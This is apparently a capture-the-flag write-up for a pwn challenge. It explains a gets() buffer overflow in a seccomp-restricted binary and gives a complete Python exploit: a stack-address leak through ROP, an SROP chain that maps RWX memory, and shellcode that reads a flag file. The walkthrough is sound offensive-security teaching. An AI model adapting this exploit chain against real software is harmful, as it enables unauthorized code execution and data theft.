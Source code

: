 ```yaml
---
title: "[WRITE UP] - devnull-as-a-service"
description: 'Yes, a CTF Write up'
date: 2025-01-30
tags: ['2025', 'WriteUp', 'PWN']
authors: ['K.']
draft: false
---
```


# Description
> A few months ago, I came across this website. Inspired by it, I decided to recreate the service in C to self-host it.
To avoid any exploitable vulnerabilities, I decided to use a very strict seccomp filter. Even if my code were vulnerable, good luck exploiting it.
PS: You can find the flag at `/home/ctf/flag.txt` on the remote server.

# Challenge Overview
The challenge involves exploiting a buffer overflow in a `non-PIE` binary with a strict `seccomp` filter. The goal is to read the flag from `/home/ctf/flag.txt` using allowed syscalls. The key steps involve leaking a stack address, crafting a `Sigreturn-Oriented Programming (SROP)` chain to create an `RWX` memory region, and executing shellcode that utilizes `openat`, `read`, and `write` syscalls.

# Binary Analysis
- Security Features: `Partial RELRO`, `Stack Canary`, `NX Enabled`, `No PIE`.
- Vulnerability: `gets()` in `dev_null()` causing a `buffer overflow`.
- Seccomp Rules: Blocks dangerous syscalls (e.g., `open`, `execve`) but allows `openat`, `read`, `write`, and `sigreturn`.

# Exploit

Looking back, this article seems to be a shellcode article because it has seccomp and although NX is enabled, we can still execute shellcode through ROP, we can use some syscalls like `mmap`, `mprotect` to grant permissions to a certain memory area. This article is special in that there are no common `gadgets` for us to execute a normal ROP chain, but instead there are `syscalls` and `pop rax`, we can immediately think of using `SROP`.

:::note
`Sigreturn-Oriented Programming (SROP)` is an exploitation technique that abuses the Linux kernel’s signal-handling mechanism. When a process receives a signal (e.g., segmentation fault), the kernel saves the process’s execution context (registers, stack, etc.) onto the stack. After handling the signal, the kernel restores the context using the sigreturn syscall. `SROP` exploits this mechanism by forging a fake signal frame on the stack and triggering sigreturn to hijack control of all registers, effectively allowing arbitrary syscalls or code execution.
:::

So the idea for this:

- Leak Stack Address: Use a ROP chain to leak `__libc_stack_end` to determine stack layout.
- `SROP` for RWX Memory: Use `SROP` to call `mmap` and create an executable memory region.
- Shellcode Execution: Inject shellcode using `openat` to open the flag, `read` it, and `write` to stdout.

## Exploit:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./dev_null', checksec=False)

def GDB(): gdb.attach(p, gdbscript='''

b*dev_null+52
c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)

if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

'''
[*] '/home/alter/CTFs/x3CTF/devnull-as-a-service/dev_null'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
'''

# Leak __libc_stack_end address
def stage1():

    pl = flat([
        b'A'*16,
        pop_rdi,
        exe.sym.__libc_stack_end,
        exe.sym.puts,
        exe.sym.main,
    ])

    sl(pl)
    rl()
    __libc_stack_end = unpack(p.recv()[:6].ljust(8, b"\x00"))
    slog("__libc_stack_end:", __libc_stack_end)

    return __libc_stack_end

# Padding to __libc_stack_end to prepare for ret2main
def stage2():

    pl = flat([
        b'A'*16,
        pop_rdi,
        stack_address,
        exe.sym.gets,
        exe.sym.main,
      ])

    sl(pl)
    sl(cyclic(40) + p64(exe.sym.main))

# Setup and execute Sigreturn
# void *mmap(void addr[.length], size_t length, int prot, int flags, int fd, off_t offset);
def stage3():

    frame = SigreturnFrame()
    frame.rax = 0x9    # mmap syscall
    frame.rdi = rwx    # addr
    frame.rsi = 0x1000 # size
    frame.rdx = 0x7    # prot (RWX)
    frame.r10 = 0x22   # flags (MAP_ANONYMOUS|MAP_PRIVATE)
    frame.r8 = 0       # fd
    frame.r9 = 0       # offset
    frame.rsp = stack_address + 0x28 # return to main
    frame.rip = syscall

    pl = flat([
        b'A'*16,
        pop_rax,
        0xf,
        syscall
    ])
    pl += bytes(frame)

    sl(pl)

# Inject payload to rwx region
def stage4():

    pl = flat([
        b'A'*16,
        pop_rdi,
        rwx,
        exe.sym.gets,
        exe.sym.main,
    ])

    sc = asm('''nop\n'''*0x10+'''

        xor rax, rax
        mov rax, 0x101
        mov rdi, -1
        lea rsi, [rip + file_path]
        syscall

        mov rdi, rax
        mov rsi, rsp
        mov rdx, 0x50
        mov rax, 0
        syscall

        mov rdx, 0x50
        mov rdi, 1
        mov rsi, rsp
        mov rax, 1
        syscall

        file_path:
            .asciz "/home/ctf/flag.txt"

        ''', arch='amd64')

    sl(pl)
    sl(sc)

# Execute that shellcode
def stage5():

    pl = flat([
        b'A'*16,
        rwx
    ])

    sl(pl)

def exploit():
    global pop_rdi, stack_address, pop_rax, syscall, rwx

    pop_rdi = 0x413795 # pop rdi; ret;
    pop_rax = 0x42193c # pop rax; ret;
    syscall = 0x40bcd6 # syscall; ret;
    rwx = 0x11000
    stack_address = stage1()

    stage2()
    stage3()
    stage4()
    stage5()

    interactive()

if __name__ == '__main__':
    exploit()
```
